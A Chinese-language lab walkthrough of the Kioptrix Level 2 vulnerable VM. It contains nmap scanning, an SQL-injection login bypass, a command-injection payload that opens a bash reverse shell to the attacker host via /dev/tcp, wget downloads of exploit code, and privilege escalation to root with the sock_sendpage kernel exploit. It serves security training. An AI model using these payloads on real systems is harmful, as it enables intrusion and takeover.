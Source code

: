 打开虚拟机，和攻击机在同一个网段

### 信息收集
#### IP发现
`arp-scan 192.168.159.0/24`和`nmap -sn 192.168.159.0/24`扫描，得到192.168.159.130的目标IP

#### 服务探测
`nmap -sT -sV -Pn -p 1-65535 192.168.159.130`

得到

```
host             port  proto  name       state  info
----             ----  -----  ----       -----  ----
192.168.159.130  22    tcp    ssh        open   OpenSSH 3.9p1 protocol 1.99
192.168.159.130  80    tcp    http       open   Apache httpd 2.0.52 (CentOS)
192.168.159.130  111   tcp    rpcbind    open   2 RPC #100000
192.168.159.130  443   tcp    ssl/https  open   
192.168.159.130  631   tcp    ipp        open   CUPS 1.1
192.168.159.130  950   tcp    status     open   1 RPC #100024
192.168.159.130  3306  tcp    mysql      open   Error: \x04Host '192.168.159.128' is not allowed to connect to this MySQL server
```

#### MySQL version发现
不能连接，无法通过nmap发现端口，暂不用sqlmap判断

#### web发现
直接访问发现有表单，web可以测试

### 漏洞分析
```
searchsploit openssh 3.9
searchsploit httpd 2.0
searchsploit rpc
searchsploit cups 1.1
searchsploit mysql
hydra -l name -p pass 192.168.159.130 mysql
```

排除没有PoC的不容易利用的漏洞后，有一些可能可以利用的点

apache httpd目录遍历和XSS和其他Web漏洞

看来要用Web作为切入点

### 漏洞利用
直接进入，发现可以sql注入，使用`aaa' OR 1=1 -- `登录，发现ping功能的接口，白送一个命令注入，输入命令会弹出新页面太麻烦，使用反弹shell:`127.0.0.1; bash -i >& /dev/tcp/192.168.159.128/445 0>&1`，之前kali机器上打开nc监听`nc -lvnp 445`，获得目标服务器shell

```
$ whoami
apache
$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
$ cat /etc/*-release
CentOS release 4.5 (Final)
$ mysql -V
mysql  Ver 14.7 Distrib 4.1.22, for redhat-linux-gnu (i686) using readline 4.3
```

### 后渗透攻击
已知机器版本有CentOS4.5，Linux2.6.9，MySQL版本为4.1.22

```
searchsploit linux centos 4.5
searchsploit mysql 4.1
```

发现一些

```
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpa | exploits/linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 | exploits/linux/local/9479.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)                                      | exploits/linux/local/1518.c
```

将这些文件拷贝到目标机器上，攻击机器上执行一下操作
```
$ cp /usr/share/exploitdb/exploits/linux/local/9545.c .
$ cp /usr/share/exploitdb/exploits/linux/local/9479.c .
$ cp /usr/share/exploitdb/exploits/linux/local/1518.c .
$ python3 -m http.server 9999
```

用拿到到shell执行以下操作
```
$ cd /tmp  # 原有路径下没有写权限
$ wget http://192.168.159.128:9999/9545.c
$ wget http://192.168.159.128:9999/9479.c
$ wget http://192.168.159.128:9999/1518.c
$ gcc -o aaa 9545.c
9545.c:376:28: warning: no newline at end of file
$ gcc -o bbb 9479.c
9479.c:130:28: warning: no newline at end of file
$ gcc -o ccc 1518.c
1518.c:93:28: warning: no newline at end of file
/usr/lib/gcc/i386-redhat-linux/3.4.6/../../../crt1.o(.text+0x18): In function `_start':
: undefined reference to `main'
collect2: ld returned 1 exit status
$ ./aaa
sh: no job control in this shell
sh-3.00# whoami
root
```

使用9545.c提权成功，其他都失败


### 其他
使用sqlmap注入可以，但读写文件失败，可能sql执行一些权限的内容不熟
